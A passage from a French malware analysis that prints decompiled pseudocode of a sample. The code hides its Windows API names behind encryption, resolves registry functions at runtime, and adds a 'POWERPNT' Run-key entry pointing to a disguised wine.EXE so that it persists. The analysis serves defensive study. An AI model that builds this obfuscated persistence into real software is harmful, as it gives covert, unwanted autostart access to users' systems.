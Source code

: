 ```c
GetEncryptedDataOf_RegCreateKeyExW(&var_cc1, &EncryptedNameOf_RegCreateKeyExW);
void* name_RegCreateKeyExW = DecryptData_8(EncryptedNameOf_RegCreateKeyExW_1);
void var_cf1;
void var_cf0;
int64_t r9_23 = GetEncryptedDataOf_advapi32(&var_cf1, &DecryptedNameOf_RegCreateKeyExW);
void* name_advapi32_2;
int64_t r8_35;
name_advapi32_2 = DecryptData_2(&var_cf0);
void* RegCreateKeyExW =
    ResolveFunction(name_advapi32_2, name_RegCreateKeyExW, r8_35, r9_23);
/* String for regkey :
 * SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 */
void var_d61;
void var_d60;
GetEncryptedDataOf_string_regkey(&var_d61, &var_d60);
int16_t (* var_10a8_1)[0x107];
(uint32_t)var_10a8_1 = 0;
int64_t var_ca0;
RegCreateKeyExW(-0x7fffffff, GetDecrypted_string_regkey(&var_d60), 0, 0, var_10a8_1, 2, 0, &var_ca0, 0); 
```
Par la suite, à l'aide de la fonction `RegSetKey` il attribue une entrée `POWERPNT` à cette RegKey ainsi que le chemin vers l'exécutable `wine.EXE` (`C:\Users\User\AppData\Local\POWERPNT\wine.EXE`), :

```c
GetEncryptedDataOf_RegSetValueExW(&var_d81, &var_d80);
void* name_RegSetValueExW = DecryptData_5(var_1040_1);
void var_db1;
void var_db0;
int64_t r9_24 = GetEncryptedDataOf_advapi32(&var_db1, &var_db0);
void* name_advapi32;
int64_t r8_36;
name_advapi32 = DecryptData_2(&var_db0);
module_name = name_advapi32;
void* RegSetValueExW;
int64_t rdx_72;
int64_t r8_37;
int64_t r9_25;
RegSetValueExW = ResolveFunction(module_name, name_RegSetValueExW, r8_36, r9_24);
int32_t path_wine_EXE = wcslen(&dest, rdx_72, r8_37, r9_25);
void var_dd9;
void var_dd8;
GetEncryptedDataOf_POWERPNT3(&var_dd9, &var_dd8);
void* name_POWERPNT = DecryptData_6(&var_dd8);
RegSetValueExW(var_ca0, name_POWERPNT, 0, 1, &dest, path_wine_EXE * 2 + 2);
```

Enfin, le code ferme l'accès à la RegKey.

### Connexion au serveur et téléchargement du script
